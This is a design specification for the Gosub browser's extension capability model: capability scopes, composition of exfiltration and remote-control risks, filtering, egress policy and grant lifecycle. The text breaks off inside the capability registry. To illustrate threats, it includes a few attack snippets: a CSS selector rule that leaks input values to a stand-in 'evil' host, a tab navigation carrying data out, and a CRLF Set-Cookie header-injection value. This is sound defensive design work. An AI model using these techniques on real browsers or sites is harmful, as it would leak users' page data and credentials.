



# Gosub Extension Capability Model

**Version 2.1.1 — August 2026**

v2.1.1 integrates six red-team passes against v2. The model's thesis and structure are unchanged; what changed is that the composition mechanism now classifies authority by **observable effect rather than API namespace**, in **two directions** (information flow *and* command flow), computed over the **publisher**, not the package. A layer of enforcement-correctness commitments (header serialization, artifact termination, socket binding, IPC scheduling) sits beneath the model, because the reviews converged on the model being sound and the remaining risk living in the engine that enforces it. The .1 patch corrects two security-model bugs a sixth pass found (the loopback-origin conflation in §3 and the single-rule stats oracle in §7), completes the command-axis labels the registry left empty, re-models §5's undecidable "state-changing" distinction, promotes publisher identity into the model, and distinguishes runtime remote control from signed updates. A full changelog is at the end.

## Overview

Browser extensions inherit a decade of accreted permissions. MV2 granted too much: an ad blocker could observe and modify every request. MV3 conflated security architecture with product policy — rule limits, worker lifetimes, and API removals shipped as one bundle, and powerful filtering became collateral damage.

Gosub rests on one thesis:

> **Powerful extensions do not require powerful extension code.**

The browser provides powerful, trusted primitives — filtering, matching, statistics, form filling, command handling. Extensions select and configure them. Extension code holds as little authority as possible, and the authority it holds is explicit, scoped, composed-with-care across both information and command flow, and revocable.

Manifest versions are input formats (§18), not the security architecture. The security architecture is the capability model, and its centre of gravity is §5.

---

# Part I — Principles

## 1. Separate Extension Code from Filtering

The filter engine is browser code, running in the network layer (network filtering) and the renderer (cosmetic filtering). Extensions supply *rules*; they do not execute during matching, do not sit on the request path, and do not receive the requests they affect.



Filtering performance and limits become engineering questions, not permission questions; a compromised worker cannot see traffic it was never given; the machinery is shared, testable, benchmarkable browser code.

## 2. Filtering Should Be Powerful — Within Budgets

No product-policy rule limits. Engineering budgets instead, as design commitments:

```text
Compile-time budget    rulesets exceeding compile cost or artifact
                       size are rejected at compile time
Match-time bound       worst-case per-request cost is bounded; regex
                       rules use a linear-time engine (RE2-class),
                       eliminating catastrophic backtracking; the
                       compiled artifact's transition graph is
                       acyclic or step-capped (§14), so a valid
                       artifact cannot hang the matcher
Memory cap             per-extension resident budget, enforced at
                       install and update
```

A full EasyList + EasyPrivacy + regional load sits far inside every budget; a malicious ten-million-rule or non-terminating ruleset is rejected, not slowly executed.

## 3. Capabilities and Scopes

A **capability** names an operation class; a **scope** parameterizes where it applies. The model never conflates them:

```text
capability(scope)

content_script(["*.example.com"])
network.egress_public(["api.sponsorblock.example"])
filtering.block(subresource, ["<all>"])
content_handler("https://viewer.example", ["application/json"])
```

Host patterns, MIME types, request classes, and origins are scopes; a host pattern is never itself a capability. Translation (§18) is contextual: a host permission acquires meaning only in combination with the API that uses it.

**Scopes are canonical — and origin identity is separate from address-space classification.** Two distinct functions, never conflated:

```text
canonical_origin(scope)      preserves scheme + normalized host + port.
                             http://localhost, http://127.0.0.1, and
                             http://[::1] are THREE DIFFERENT origins and
                             stay distinct. Used for grant scoping.

classify_address_space(host) maps a resolved host to loopback / RFC-1918 /
                             link-local / public. Groups those same three
                             as loopback. Used for egress tiering and SSRF
                             policy (§15) — never for grant identity.
```

Both the translator and Sonar call the *same* `canonical_origin` for scope identity and the *same* `classify_address_space` for connection policy, so the two sides can never disagree — but a grant for `cookies.read(http://localhost)` must never widen to `127.0.0.1` or `[::1]`, because collapsing origins is a privilege expansion. Origin canonicalization normalizes representation (case, default ports, IDNA, IPv6 bracket form) *without* merging distinct origins; address-space classification is a separate connection-policy concern. Scopes are stored canonical, never as raw manifest strings; a scope is only as sound as the single canonicalizer both sides trust.

Scopes narrow monotonically: a grant may be reduced (per-site revocation) without touching the capability; a capability may be revoked without enumerating scopes.

## 4. Security Dimensions of a Capability

Every capability is classified along four axes:

```text
C  Confidentiality   what can it learn?
I  Integrity         what can it change?
A  Availability      what can it prevent?
U  User intent       can it cause actions normally requiring
                     explicit user interaction?
```

```text
filtering.block (subresource)     C:low   I:med    A:high  U:low
filtering.redirect (main_frame)   C:low   I:crit   A:high  U:high
content_script                    C:crit  I:crit   A:med   U:med
dom.declarative_actions           C:low   I:high   A:med   U:high
input.raw_keys                    C:crit  I:low    A:low   U:low
cookies.write                     C:med   I:high   A:med   U:med
```

v1 scored capabilities almost entirely on confidentiality. Blocking, redirection, and declarative actions are integrity/availability/intent powers; a model that only asks "can it read?" mis-tiers them.

## 5. Capability Composition — Two Axes, One Principal

**Risk(capability set) ≠ max(Risk(each capability)).** The security-relevant object is the *closure* of the granted set, and it composes in two directions.

### Effect, not namespace

Labels attach to **observable effect**, never to which API produced it. A capability is a **sink** if it can *cause a network-producing effect* — whether through `fetch`, a DOM-created ``/iframe/form, a navigation, a CSS `url()`, or a tab-open. It is a **source** if it can *acquire* page/URL/credential/keystroke/pixel/selection data — whether it reads, renders, detects, or acts. "It only renders / only detects / only acts / only organizes" is **not** an exemption.

```text
source label   none | aggregate | tab_urls | page_content |
               credentials | keystrokes | pixels | selection |
               implicit_history

sink label     none | own_hosts | arbitrary_network |
               native_host | user_scripts

command-source command authority INTO the extension's decisions
               none | user | packaged | remote_server | webpage

actuator       authority the extension can DRIVE
               none | filter_policy | dom | navigation |
               browser_ui | os
```

Consequences the reviews forced (see registry §19 for the full assignment):

- `content_script` and `content_script.active_tab` are `page_content + arbitrary_network` **by definition** — an isolated-world script still shares the page DOM and can create a network-loading node. `active_tab` is therefore not silent.
- `tabs.open` / `tabs.navigate` are `arbitrary_network` sinks (navigate a tab to `evil/?d=`); `tabs.organize` is not.
- `styles.inject_raw`, `filtering.cosmetic`, and `filtering.procedural` are sinks via CSS resource loads unless neutralized (§6, §8).
- `content_handler`, `context.*`, `forms.detect_credentials` are sources.
- `filtering.dynamic_rules` is `sink: probe` **and** `source: implicit_history`: even with statistics denied, a single-URL dynamic rule plus a timing loop turns the matcher into a navigation detector.

### Axis 1 — information flow (source × sink)

```text
page_content  × any sink   ->  page.exfiltration
tab_urls      × any sink   ->  history.exfiltration
credentials   × any sink   ->  credential.exfiltration
keystrokes    × any sink   ->  keystroke.exfiltration
pixels        × any sink   ->  capture.exfiltration
implicit_history × any sink ->  history.exfiltration
```

### Axis 2 — command flow (command-source × actuator)

Confidentiality is not the only authority. A remote server that can reprogram browser policy is dangerous even if **no information leaves**:

```text
remote_server × filter_policy  ->  remote.filter_control
remote_server × navigation     ->  remote.navigation_control
remote_server × dom            ->  remote.page_control
remote_server × browser_ui     ->  remote.ui_control
webpage       × extension_bridge -> external command channel
```

The canonical case: `network.egress_public(own) + filtering.dynamic_rules + filtering.block` is a remotely reprogrammable filtering engine — every capability standard or silent, the combination a command-and-control channel.

Axis 2 is a **derived-pattern detector**, not a per-capability tier: `command-source: remote_server` is emergent (egress-to-own-host + a mutation capability), while `command-source: native_process` / `enterprise_policy` and every `actuator` *are* per-capability labels the registry (§19) assigns. Both axes are computed the same way — a closure over labels — but axis 2's remote-server source arises from a combination rather than a single grant. Every registry entry that can drive filter policy, navigation, the DOM, browser UI, or the OS carries an `actuator` label so the detector has something to compose against; entries with none are inert to axis 2.

### The principal is the publisher, not the package

Both closures are computed over the **communicating set**: any extensions sharing a channel (externally_connectable, a shared storage origin, a native-messaging bridge) — and over the **same-publisher set**. Two co-published extensions, one holding a source and the other a sink, hold the derived authority *jointly*; each individual install dialog is not allowed to look clean while the pair exfiltrates. Unrelated publishers colluding through their own servers plus an OS covert channel are out of manifest-analysis scope and are named as a residual, handled by store-side signals.

### Derived authority drives the dialog, and recomposes on update

The installation dialog leads with derived authority. `content_script` + `network.egress_public(api.foo.example)` does not read "can read pages; talks to api.foo.example." It reads:

> **Can send the contents of pages you visit to api.foo.example.**

Enumerated pairs are test cases; the mechanism is the label closure over both axes, so capabilities added later compose correctly without a pair table. On update (§13) the closure is recomputed over the new effective set and the **delta** is shown — a newly-acquired sink against a long-held source surfaces the derived warning at update time, not silently.

---

# Part II — The Model

## 6. Separate Observing Traffic from Controlling Traffic

An extension that can *block* `||tracker.example^` does not thereby learn `https://tracker.example/foo?id=123` was requested. Control and observation are separate; almost every extension needs only control.

> **Direct request observation is prevented. Control primitives and feedback channels are constrained to minimize indirect observation.**

Deliberately weaker than "control implies no observation," because control leaks through side effects unless constrained:

**Redirect targets are static and classed.** A redirect rule targets only a resource from the extension's fixed packaged set — no rule-derived components, no regex substitution, no fragments, no query propagation. Passive targets (image, empty response, static text) are `filtering.redirect_resource`. Executable surrogates are `filtering.redirect_surrogate` and run in an **isolated realm** with no access to page `localStorage`, `sessionStorage`, or `postMessage` to page origins, under a no-network CSP — because a surrogate executing in the page could otherwise launder exfiltration through page JS (`window.app.send(secret)`), a cooperating frame, or DOM-local channels a same-origin content script reads. Browser-supplied audited surrogates are preferred and stay lower-tier; extension-authored executable surrogates are treated as `page.main_world_inject`-class (loud).

**Packaged-resource loads are unobservable** — no fetch event in the worker, no load notification — *and* their cache state is isolated from any extension-readable context, closing the "was packaged resource N warmed?" timing inference.

**Extension-supplied CSS carries no attacker-chosen URL.** Injected CSS (cosmetic, procedural, `styles.inject_safe`) may reference only static packaged local resources; every network-bearing construct — `url()`, `@import`, `@font-face` remote `src`, `image-set()`, cursor URLs, `list-style-image` — is rejected or rewritten. Without this, attribute-selector rules (`input[value^="a"]{background:url(//evil/a)}`) turn page state into attacker-chosen requests. Raw arbitrary CSS that cannot be so constrained is `styles.inject_raw`, labeled `page_content` and loud.

## 7. Statistics and Feedback Channels

> **Rendering a statistic is free. Reading a statistic is a capability.**

**`stats.display` (silent).** The extension declares that its badge shows a native counter; the browser renders it; extension code never receives the value. The badge use case with zero information flow — the tier to lean on.

**`stats.read` (standard, `source: implicit_history`).** Returns one dimensionless counter — total blocks across all rules across all sites — and is labeled a history source, because **dimensionality reduction does not close the oracle**. An extension ships a *single* rule (`block sensitive-site.example/tracker.js`); the global total then *is* that site's hit count, with `filtering.block` (silent) + `stats.read` and nothing else. Reducing to one counter only raises the rule count an attacker *could* use; the attacker uses one.

The real defense is therefore an explicit browser-owned **privacy budget**, not the counter's shape: added noise with a stated leakage bound, a budget that depletes with reads, and no attacker-resettable baseline. Quantization alone is insufficient — an attacker can prime the counter near a quantization boundary with requests whose blocking it predicts, then watch for the interesting `+1`. The budget must make a rigorous statement (O5's criterion: a single-site probe needs O(weeks) to distinguish one visit from noise). Because `stats.read` is a source, it composes: with any sink it yields `history.exfiltration` and the derived warning; co-held with a probe sink (`dynamic_rules`, `remote_rulesets`) it degrades further or is denied. `scheduling` (silent) supplies precise clocks, so no defense may rest on timing decorrelation. Any internal per-rule counters live in a namespace no standard-tier extension can read.

**`stats.display` remains the clean answer** — the browser renders the badge, the worker reads nothing, and no budget is spent.

**`stats.per_rule` (loud).** Per-rule counts are a history logger one rule away; observation-tier dialog, or export only through an explicit user action.

## 8. Native Cosmetic Filtering

Element hiding is a browser primitive; generic and per-site cosmetic rules compile into the renderer-side engine, so extensions need no page access to hide elements.

**Cosmetic mutation is unobservable to content scripts.** Hiding operates at the compositor level (post-layout), invisible to `MutationObserver` and to any same-origin content script. Without this, a rule like `##div:has-text("secret"):upward(1){--x:...}` plus a content-script poll becomes a one-bit-per-rule page-exfiltration channel. Where the engine cannot guarantee compositor-level invisibility, `filtering.cosmetic` relabels to `source: page_content` and composes accordingly.

**Procedural filters are a closed DSL.** `##div:has-text(x):upward(2)` is data that *describes execution*; the bound is:

> **Remote data may select and parameterize browser-implemented operators. It may never introduce new operators.**

The operator set is fixed, non-Turing, natively implemented, and cost-bounded per operator. Inclusion criterion: operators both common in major lists and straightforward to implement natively; operators requiring full DOM traversal or layout awareness — and `:xpath` in particular — are excluded from the DSL and deferred to the content-script path. Scriptlets amounting to general code require `content_script` (§10).

## 9. Remote Rulesets Are Remote Policy

A remotely fetched filter list is a program in the policy language of §6–8, not inert data: a compromised list server changes browser behavior remotely, and a server can serve different rules to different users — reintroducing targeted policy.

```text
filtering.remote_rulesets:
    sources:  declared HTTPS URLs, each with a MANDATORY content
              hash embedded in the extension package at install
    fetcher:  the browser — no extension cookies, no extension
              headers, no redirects off the declared origin
    verify:   fetched bytes must match the packaged hash or are
              rejected; the hash never comes from the same server
    limits:   the size and compile budgets of §2
    schedule: browser-controlled, jittered
```

Content addressing is a requirement, not an option: browser-fetching removes extension-controlled personalization inputs but not the server's ability to vary the response by client IP/UA — only pinning to a specific content hash does that. But a package-pinned hash cannot *update*: when EasyList changes one byte, its hash changes and the fetch is rejected, so a purely package-pinned list is a frozen object that can only change through an extension-package update. Three coherent models exist:

```text
A  package-pinned hash   immutable object; updates require a new
                         extension-package version. Secure, static.
B  package-pinned key    the publisher signs new versions; the list
                         updates at runtime — but this IS runtime remote
                         filter control and composes as such (§5).
C  catalog / transparency the UA or store approves a specific
                         (version, hash) revision; browsers fetch exactly
                         that immutable object; the list SERVER only
                         distributes bytes it cannot vary per user.
```

Gosub adopts **model C**: the approver — not the publisher's server — decides which immutable revision runs, so lists update (through newly-approved revisions) *and* every user provably runs the same reviewed bytes. This is the honest reading of "updates its lists (verified copies)." An extension that instead fetches rules itself and installs them via `dynamic_rules` is doing per-user policy (model B by hand), and the composition treats that `egress × dynamic_rules` pair as remote control (§5).

## 10. No Remotely Hosted Executable Code

> **Remote data must not be usable to introduce general-purpose executable logic into a privileged extension context.**

Enforced by the execution environment:

```text
Extension origin      each extension is its own origin, isolated
                      from pages and other extensions
Extension CSP         browser-owned minimum: no remote scripts, no
                      eval / new Function, declared-package WASM only
Workers & iframes     same policy; sandboxed pages for untrusted
                      content display
Cross-extension       no ambient access; externally_connectable
                      requires mutual declaration — and forms a
                      communicating set for §5 closure
user_scripts          the one deliberate exception (§19, gated);
                      fetched network content may not silently
                      become a user script — the canonical
                      egress × user_scripts remote-code bypass
```

## 11. Human-Readable Permissions

The dialog leads with derived authority (§5), then capabilities with scopes, then what the extension *cannot* do where the contrast informs.

```text
uBlock-class blocker wants to:
    ✓ Block and hide ads and trackers on all sites
    ✓ Update its filter lists from lists.example (verified copies)
    ✓ Show a blocked counter on its icon
    !  When you click its icon, it can read the current page and
       contact the network
    ✗ It cannot see the addresses you visit
    ✗ It cannot read pages unless you click it
    ✗ No remote server can change its filtering between updates

Password manager wants to:
    ✓ Fill your saved passwords (your vault handles the secrets)
    ✓ Sync your vault with sync.myvault.example
    ✗ It cannot read the pages you visit
    ✗ It cannot see which sites you log into
```

The blocker's single `!` is the honest cost of its element picker; the password manager has none, because browser-mediated fill and detection (§19) leave no page-content source and no credential-exfiltration pair. Honest dialog and secure design are the same artifact.

The negative claims are scoped precisely. "No remote server can change its filtering between updates" is defendable; the unscoped "cannot be controlled by a remote server" is *false*, because every auto-updating extension has a `publisher_update` command source — the publisher ships new packaged code and rules within the existing grant each release. The security guarantee is therefore: **no runtime remote-data channel can reprogram filtering behavior between authenticated extension updates.** Package updates are a distinct, authenticated channel governed by the update capability-diff (§13), not a runtime one, and are not shown as a scary per-install permission (every extension would carry the same true-but-useless line).

## 12. Extension Workers and Private Browsing

Workers are event-driven: started for events, stopped when idle. Because Gosub owns the runtime, broker-managed durable state survives restarts and keepalive hacks are pointless.

**Private browsing is a boundary.**

```text
extension.private_browsing:
    denied            default — no run, no events in private windows
    isolated          separate worker, memory-only storage, no
                      BROWSER-PROVIDED channel to the regular
                      instance; state ends with the session
    isolated_network  isolated, and no network egress in private —
                      for tools that can work offline; closes the
                      "both instances phone the same host, vendor
                      correlates by IP+time" channel
    spanning          discouraged, loud — one worker sees both
```

The isolation guarantee is precise: *no browser-provided state or channel* connects the instances. It does not claim network-level unlinkability — two instances that both hold egress to the same host can be correlated by the vendor via IP and timing, which is why private access is granted separately and `isolated_network` exists. Chromium `incognito: split` translates to `isolated`, never to nothing.

## 13. Grant Lifecycle

**Install: translation is pinned.** Translation (§18) resolves the manifest to an explicit capability(scope) list with canonical scopes; that list is the grant. No wildcard namespaces exist in grants; capabilities added to Gosub later can never flow into an old grant.

**Update: diff the effective sets, recompose warnings.**

```text
old effective capabilities -> capability diff -> new effective set
```

Any expansion — including removal of a narrowing `gosub` key with permissions unchanged — suspends the extension until approved. The composition closure (§5) is recomputed and the derived-warning **delta** is shown, so a new sink against an old source prompts re-consent. Reductions apply silently.

**Revocation is a control-plane operation.** Revoking a capability or narrowing a scope broadcasts a Baleen table update. Semantics:

```text
effect       matching rules and injections stop; state disabled,
             not deleted — re-grant restores it
propagation  control-plane messages travel an out-of-band,
             high-priority channel that PRE-EMPTS the worker event
             loop, so a worker cannot flood injection commands
             through the propagation window
live docs    on revoke, affected live documents are re-evaluated:
             injected contexts are torn down where the runtime
             allows, else the tab is reloaded with attribution —
             revocation is not "effective at next reload only"
persistence  survives updates
notification the extension gets a lifecycle event; privileged
             operations under a revoked grant fail closed
```

**Grants bind to documents, and the renderer is the ground truth.** Site and activeTab grants are held against `(tab_id, frame_id, document_id, navigation_epoch, origin)`. The identity is carried *inside* each execution payload and **revalidated by the renderer at the moment of execution** — the broker validating and then forwarding is not sufficient, because the document can navigate in the gap. The renderer drops any execution frame whose current `document_id` does not match the payload. Teardown at cross-document navigation is **frame-tree-wide**: descendant and extension-injected frames inherit the grant's epoch and lose it together, so an injected subframe or an `onbeforeunload` hook cannot outlive the navigation that ends the grant.

For `content_script.active_tab`: the grant is minted only by a **browser-rendered gesture the extension cannot synthesize** (the toolbar-icon click), covers the current document and its frame tree, survives same-document `pushState`, and ends at any cross-document navigation.

**Publisher identity is part of the model, and publisher transfer is a lifecycle event.** §5 computes composition over the *publisher* principal, so "who is the publisher" is a model input, not merely a distribution detail (this is why O6 is a dependency of §5, not a UA footnote). The publisher is the signing-key identity behind a package, not a store account; two packages compose jointly only if they share that identity or a declared channel (§5). When publisher ownership or signing identity changes — a sale, a key rotation, a transfer — the effective security principal changes even though no manifest or capability set did. That transition is a grant-lifecycle event:

```text
ownership / signing-identity change
        ->  recompute the communicating / same-publisher closure
        ->  show any newly-derived authority
        ->  re-consent (extension suspended until approved)
```

Sideloaded extensions with no signing identity are their own singleton principal and never compose with another package.

---

# Part III — Architecture

## 14. Baleen: The Matching Core

Baleen (`gosub_baleen`) is the engine's URL-dispatch primitive, not an ad-blocking component. One matching core, many namespaced tables, generic over verdict:

```text
Consumer                         Table namespace
network filtering (Sonar)        block/redirect/header verdicts
content-script injection         extension × match-pattern
cosmetic filtering (renderer)    hostname -> selector sets
egress scope checks (Sonar)      extension × declared hosts
per-site grants (broker)         capability × scope
stats attribution                rule id -> extension counter
```

Structure: a core (right-to-left hostname label walk, rarest-token pattern index, linear-time regex bucket, exceptions consulted after a hit), frontends (ABP/uBO semantics, WebExtension match patterns, grant scopes — precedence resolves in the frontend, the core returns candidate sets), and a flat, offset-based, position-independent, mmap-able artifact.

**The artifact is untrusted input, and validation covers termination, not only bounds.** Consumers never mmap-cast the blob into structs. Every artifact is validated on receipt against the assumption that the compiler was compromised:

```text
bounds        all offsets forward-only, length-prefixed sections,
              no internal pointers, sizes bound-checked
termination   the transition graph is verified ACYCLIC (a DAG
              invariant) or carries a per-request execution-step
              cap — a bounds-valid but CYCLIC artifact must not be
              able to hang the match loop and thereby DoS Sonar
handles       validation produces bound-checked safe handles; no
              raw offset arithmetic runs after validation
audit         the validator is small enough for manual audit
              (stated line / cyclomatic-complexity budget) and is
              continuously fuzzed against a hostile-compiler corpus
```

**Handover is sealed.** On Linux: `memfd_create` → write → validate → `F_SEAL_SHRINK|GROW|WRITE|SEAL` → map read-only. No writable descriptor survives sealing. This reuses the multi-process tile-passing infrastructure.

The build-vs-embed decision has a stated threshold: embed `adblock-rust` as the phase-0 baseline and permanent oracle; write the Baleen core only if adblock-rust misses a target (<10 µs p99, <50 MB resident, the required operator set, acceptable compile time) by more than 20 % *and* profiling shows the gap is intrinsic rather than optimizable.

## 15. Sonar Integration

The network filter engine is a library inside Sonar's process; per-request IPC to an external filter process would cost a round-trip per fetch. The broker installs sealed, validated tables into Sonar.

**Hook points:** pre-connect (allow/block/redirect), pre-send (request headers), response-headers (response headers, CSP). **Matching scope:** request URL, request class, party, initiator origin, request headers, response headers — **never response bodies.**

**All network egress routes through one policy, keyed by effect not API.** Sonar applies the extension egress policy to *every* network-producing operation attributable to an extension — `fetch`, a DOM-created ``/iframe/form, a navigation, a tab-open, a WebSocket, a beacon, a CSS `url()` — keyed on `(extension_id, initiator, destination)`. This is why the capability is `network.egress_*`, not `network.fetch_*`: `fetch` is one transport among many, and a model that policed only `fetch` would let content scripts and tab APIs launder exfiltration around it.

**Header modification is byte-validated, and matching is separately restricted.** Two distinct protected sets:

```text
modifiable   safe-list only; Cookie, Authorization, Host, Origin,
             Sec-Fetch-*, Set-Cookie, Strict-Transport-Security,
             Content-Length, CORS headers are engine-controlled
matchable    NARROWER than modifiable; a rule predicate may test
             e.g. Content-Type but NOT Authorization / Cookie /
             Set-Cookie — testing a secret-bearing header is an
             oracle even if the value is never received
```

Every extension-supplied header value is validated against the RFC 9110 field-value character set — CR, LF, and NUL rejected — **before** Sonar serializes it to the wire. Without this, a "safe" value carrying `\r\nSet-Cookie: …` performs response-splitting that injects a protected header underneath the capability check. This is a serialization-boundary defense, not a capability-boundary one.

**Destination policy is per-hop, and the socket binds to the checked address.** For extension egress, Sonar re-checks the resolved destination at every DNS resolution and redirect hop; a host resolving publicly at grant time and to loopback/RFC-1918/link-local later is an SSRF attempt. Crucially, Sonar `connect()`s to the exact `SocketAddr` its own check resolved — it never re-resolves by hostname at socket creation, closing the DNS-rebind TOCTOU between check and connect.

```text
network.egress_public           public address space only
network.egress_private_network  RFC 1918 / ULA — loud
network.egress_loopback         gated
```

Sonar enforces all of this — the check must sit where the connection is made. **Protected traffic** (browser/extension updates, certificate validation, browser-internal services, `gosub://`) is never subject to extension filtering.

## 16. The Extension Broker

A dedicated broker process mediates all extension authority; its threat model assumes a fully compromised worker.

**Identity is channel-bound.** An extension never names itself; the broker creates each IPC endpoint and permanently binds it to an extension identity, so authority derives from the connection. Capability references are unforgeable — kernel-mediated (SCM_RIGHTS) or per-connection randomized handles, never an integer index the worker supplies. Renderer-side identity (frame, document, origin) comes from the process topology, never from message fields. This closes the confused-deputy and capability-forgery classes.

**The broker is boring, and its parser is generated.** It deserializes small typed IPC, identifies the channel, checks capability × scope (a Baleen grant-table lookup), revalidates document identity, and forwards a typed operation. The message parser is **schema-generated, not hand-written**, with a fixed set of request/response pairs — no streaming, no partial messages, no state-machine ambiguity — and is fuzzed. It contains no JS runtime, no filter parser, no network, no filesystem, no DOM, no post-install package parsing.

**Compilation is out-of-broker.** Rule and package compilation runs in a sandboxed, unprivileged utility process (no network; filesystem limited to pipes; strict seccomp filter). A compromised compiler yields a hostile artifact — which every consumer validates for bounds *and termination* (§14) — not a privileged process.

The IPC is designed so the broker can later split into network / page / OS capability brokers without protocol changes.

## 17. Engine / User-Agent Split

> **The engine enforces; the user agent decides and renders.**

Engine: Baleen and the filter engines, the capability model and translation, all enforcement, the broker, the runtime, grant storage, native counters, the egress policy, header/socket correctness. User agent: every pixel (dialogs, prompts, revocation UI, badges, attribution surfaces), grant policy and tier availability, distribution/signing/updates, and the UA-side effects of OS-touching capabilities.

The embedder API stays minimal: `install(package) -> CapabilityRequest`, `grant(decision)`, `revoke(extension, scope)`, UI-surface registration, an event channel. An embedder implementing none of it has no extensions.

The honest property:

> **Once an effective grant set is established, the engine enforces it independently of the embedder.**

A user agent *can* build an insecure permission policy — auto-granting is a UA choice. What no embedder can do is widen enforcement beyond the established grant, reach around the broker, or weaken engine-side boundaries. Grant policy is UA trust; grant enforcement is engine guarantee.

**User trust surfaces carry non-spoofable, browser-owned attribution** — new-tab override, notifications, omnibox ownership, active capture, proxy control, debugger attachment — with restore controls rendered outside any extension-controlled surface.

---

# Part IV — Compatibility

## 18. Manifest Translation

`manifest.json` is an input dialect. Install-time translation resolves it to an explicit, pinned capability(scope) list with **canonical scopes** (§3); the broker, dialogs, and revocation operate only on that list.

**Never translate to a wildcard.** No translation produces `filtering.*` or any `foo.*`. Expansion is explicit, so future capabilities never leak into old grants.

**Host patterns are scopes.** A host permission has meaning only with the API that uses it:

```text
host_permissions + scripting            -> content_script(hosts)
host_permissions + webRequest[Blocking] -> network.observe(hosts)  [loud]
host_permissions + cookies              -> cookies.read/write(hosts) [loud]
host_permissions + extension fetch      -> network.egress_public(hosts)
host_permissions + DNR redirect/headers -> filtering.redirect_* /
                                           filtering.headers.*(hosts)
```

**declarativeNetRequest expands explicitly:**

```text
declarativeNetRequest        -> filtering.block(sub+main per rules),
                                filtering.allow, filtering.upgrade_scheme
redirect rules + host scope  -> filtering.redirect_resource(scope) or
                                filtering.redirect_surrogate(scope)
modifyHeaders + host scope   -> filtering.headers.*(scope)
declarativeNetRequestFeedback-> stats.per_rule                     [loud]
```

**Non-no-op Chromium keys:** `incognito: "split"` → `extension.private_browsing: isolated`; `activeTab` → `content_script.active_tab` with §13 binding. **No-ops:** `offscreen`, `minimum_chrome_version`.

**The `gosub` key narrows.** An optional manifest key declares a tighter capability list; it may only narrow the translated set. Removing it in an update is an expansion and triggers §13 re-consent.

**Downgrade policy:** unknown permissions ignored at install; MV2 blocking-webRequest offered the declarative path (lists run natively) or the loud observation grant.

Avoid a Gosub-only manifest as the primary format — Safari tried; the ecosystem never came. Package format standard, manifest = syntax, capabilities = semantics.

## 19. Capability Registry (v0.2.1)

Tiers: `silent` (auto-granted) · `standard` (named in dialog) · `loud` (explicit consent, per-site revocable, derived warnings) · `gated` (settings/developer toggle). Each entry carries source/sink and, where relevant, command/actuator labels (§5). Parenthesized parameters are canonical scopes.

```text
-- Filtering (control) --
filtering.block(class, hosts)         subresource silent / main_frame standard
filtering.allow(class, hosts)         silent — overrides only THIS
                                      extension's rules; browser policy
                                      wins; never last-installed-wins
filtering.upgrade_scheme              silent
filtering.redirect_resource(class,h)  passive static targets only;
                                      subresource standard / main_frame loud
filtering.redirect_surrogate(class,h) browser_supplied standard;
                                      extension_supplied loud, isolated
                                      realm, no page storage/postMessage
filtering.headers.request.remove      standard   modifiable safe-list;
filtering.headers.request.set_safe    standard   values RFC-9110 validated
filtering.headers.response.remove_safe standard
filtering.headers.response.set_safe   standard
  (matchable header set is narrower than modifiable; Authorization/
   Cookie/Set-Cookie are not matchable)
filtering.cosmetic                    silent IF compositor-unobservable &
                                      no attacker-chosen URL; else page_content
filtering.procedural                  silent; closed DSL, cost-bounded,
                                      no layout-aware ops, no :xpath
filtering.dynamic_rules               standard; sink: probe +
                                      source: implicit_history; may only
                                      mutate rules for capabilities already
                                      held — never confers a new action;
                                      compiler validates each compiled action
                                      against the grant's capability/class/
                                      host/initiator scope
filtering.remote_rulesets(sources+hash) standard; browser-fetched,
                                      hash-pinned in package, reject mismatch

-- Statistics --
stats.display                         silent     source: none
stats.read                            standard   ONE dimensionless counter;
                                      degraded/denied with any probe sink
stats.per_rule                        loud       source: history

-- Networking (egress = effect, not transport) --
network.egress_public(hosts)          standard   sink: own_hosts/arbitrary
network.egress_private_network(hosts) loud
network.egress_loopback(hosts)        gated
network.observe(hosts, types)         loud       source: history/page
network.observe_aggregate             loud       source: aggregate-history
network.proxy_control                 gated      source: implicit_history +
                                      sink: arbitrary_network (the PUBLISHER's
                                      proxy observes traffic externally — no
                                      network.observe needed); actuator: os;
                                      persistent indicator. Derived:
                                      browser_traffic × publisher_proxy ->
                                      traffic.exfiltration

-- Page access --
content_script(hosts)                 loud   source: page_content +
                                             sink: arbitrary_network (inherent)
content_script.active_tab             standard  same labels; browser-rendered
                                             gesture only; frame-tree/epoch bound
page.main_world_inject(hosts)         loud (or gated); bidirectional trust,
                                             hardening review of injected surface
dom.declarative_actions(hosts)        standard  SEMANTIC ops only — a fixed set
                                             of browser-recognized actions
                                             (e.g. dismiss_consent, expand,
                                             collapse), NOT "click selector X".
                                             The browser cannot tell a benign
                                             click from deleteAccount() behind a
                                             <div onclick>, so generic clicking
                                             is not offered here. Never mints user
                                             activation; actuator: dom
dom.actions_arbitrary(hosts)          loud      I:high; arbitrary click/select on
                                             declared selectors — any dispatched
                                             click can invoke arbitrary page JS,
                                             so this is page-integrity power, per
                                             site; never mints activation
styles.inject_safe(hosts)             standard  no network-bearing CSS
styles.inject_raw(hosts)              loud      source: page_content
styles.read(hosts)                    standard/loud  source: page-derived
forms.detect_credentials              standard  mediated (browser reveals on
                                             user invocation) else source:tab_urls
forms.fill                            standard  browser-managed origin-bound
                                             credential store; opaque candidate
                                             handles; rate-limited candidate
                                             generation; renderer revalidates
                                             document identity at execution
forms.read(hosts)                     loud      source: credentials
input.commands                        standard  mediated chords; quantized
